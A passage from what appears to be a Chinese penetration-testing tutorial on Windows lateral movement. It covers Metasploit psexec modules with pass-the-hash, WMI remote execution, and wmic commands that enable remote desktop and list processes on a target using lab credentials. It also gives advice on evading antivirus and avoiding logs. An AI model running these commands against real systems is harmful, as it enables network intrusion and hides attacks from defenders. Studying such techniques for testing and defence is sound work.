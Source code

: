 > 使用exploit/windows/smb/psexec_psh，该模块生成的payload主要是有powershell实现的。powershell作为Windows自带的脚本运行环境，免杀效果比由exploit/windows/smb/psexec生成的exe版payload好。但是，因为Windows 7、Windows Server 2008及以上版本的操作系统才默认有powershell，所以如果遇到默认不含powershell的Windows XP或Windows Server 2003，就要使用由exploit/windows/smb/psexec生成的exe版本的payload。

下面演示exploit/windows/smb/psexec模块的使用过程：

![](https://i-blog.csdnimg.cn/blog_migrate/83be34ddcba244ed27815ab684ee6b71.jpeg)

```cobol
`set rhosts 192.168.52.138set SMBDomain god``set SMBUser Liukaifeng01``set SMBPass Liufupeng123       // 设置明文密码或设置哈希来进行PTHrun`



AI写代码
```

![](https://i-blog.csdnimg.cn/blog_migrate/cd21edf7307485be04c5e341f3357a48.jpeg)

其他的那几个模块的使用方法与exploit/windows/smb/psexec相同。这些模块不仅可以指定用户明文密码，还可以直接指定哈希值来进行哈希传递攻击。

**注意：在使用psexec执行远程命令时，会在目标系统中创建一个psexec服务。命令执行后，psexec服务将会被自动删除。由于创建或删除服务时会产生大量的日志，所以会在攻击溯源时通过日志反推攻击流程。**

### 利用WMI来横向渗透

WMI的全名为“Windows Management Instrumentation”。从Windows 98开始，Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以通过/node选项使用端口135上的远程过程调用(RPC)进行通信以进行远程访问，它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。

> “自从PsExec在内网中被严格监控后，越来越多的反病毒厂商将PsExec加入了黑名单，于是攻击者逐渐开始使用WMI进行横向移动。通过渗透测试发现，在使用wmiexec进行横向移动时，Windows操作系统默认不会将WMI的操作记录在日志中，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。因为在这个过程中不会产生日志，所以，对网络管理员来说增加了攻击溯源的成本。而对攻击者来说，其恶意行为被发现的可能性有所降低、隐蔽性有所提高。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。”

注意：使用WMIC连接远程主机，需要目标主机开放135和445端口。(135 端⼝是 WMIC 默认的管理端⼝，而 wimcexec 使⽤445端⼝传回显)

#### 远程桌面连接

用WMIC命令可以开启远程计算机的远程桌面连接：

```cobol
`wmic /node:192.168.183.130 /USER:administrator PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1// wmic /node:"[full machine name]" /USER:"[domain]\[username]" PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1`



AI写代码
```

#### 查询远程进程信息

```cobol
`wmic /node:192.168.183.130 /user:administrator /password:Liu78963 process list brief`



AI写代码
```
